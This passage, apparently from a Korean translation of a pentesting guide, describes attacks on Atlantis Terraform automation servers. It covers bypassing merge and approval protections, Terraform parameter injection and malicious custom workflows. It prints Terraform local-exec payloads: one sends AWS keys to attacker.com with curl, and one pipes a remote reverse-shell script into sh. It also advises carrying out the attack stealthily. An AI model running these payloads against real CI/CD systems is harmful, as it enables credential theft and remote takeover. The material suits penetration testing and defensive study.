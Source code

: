 만약 귀하가 저장소에 쓰기 액세스 권한이 있다면 해당 저장소에 새 브랜치를 생성하고 PR을 생성할 수 있습니다. **`atlantis apply`를 실행할 수 있다면 Atlantis 서버 내에서 RCE를 실행할 수 있습니다**.

그러나 일반적으로 일부 보호 기능을 우회해야 할 수 있습니다:

- **병합 가능**: Atlantis에 이 보호 기능이 설정되어 있는 경우, **PR이 병합 가능한 경우에만 `atlantis apply`를 실행할 수 있습니다** (즉, 브랜치 보호를 우회해야 합니다).
- [**브랜치 보호 우회**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)를 확인하세요.
- **승인됨**: Atlantis에 이 보호 기능이 설정되어 있는 경우, **다른 사용자가 PR을 승인해야만 `atlantis apply`를 실행할 수 있습니다**.
- 기본적으로 [**Gitbot 토큰을 악용하여 이 보호를 우회**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)할 수 있습니다.

악성 Terraform 파일에서 **`terraform apply`를 실행하면서** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**을 사용합니다**.\
다음과 같은 페이로드가 `main.tf` 파일에 포함되어 있는지 확인하면 됩니다:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
**이전 기술의 제안을 따라** 이 공격을 **보다 은밀하게** 수행하십시오.

### Terraform Param Injection

`atlantis plan` 또는 `atlantis apply`를 실행할 때 terraform이 필요로 하는 상황에서, atlantis에서 다음과 같이 주석을 달아 terraform에 명령을 전달할 수 있습니다:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
환경 변수를 전달할 수 있는 것 중 일부는 일부 보호를 우회하는 데 도움이 될 수 있습니다. [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)에서 Terraform 환경 변수를 확인하세요.

### 사용자 정의 워크플로우

`atlantis.yaml` 파일에 지정된 **악의적인 사용자 정의 빌드 명령어**를 실행합니다. Atlantis는 풀 리퀘스트 브랜치의 `atlantis.yaml` 파일을 사용하며 `master`의 것은 **사용하지 않습니다**.\
이 가능성은 이전 섹션에서 언급되었습니다:

{% hint style="danger" %}
만약 [**서버 측 구성**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) 플래그 `allow_custom_workflows`가 **True**로 설정되어 있다면, 각 저장소의 **`atlantis.yaml`** 파일에 워크플로우를 **지정**할 수 있습니다. 또한 사용자가 사용할 **워크플로우를 재정의**하기 위해 **`allowed_overrides`**가 또한 **`workflow`**를 지정해야 할 수도 있습니다.
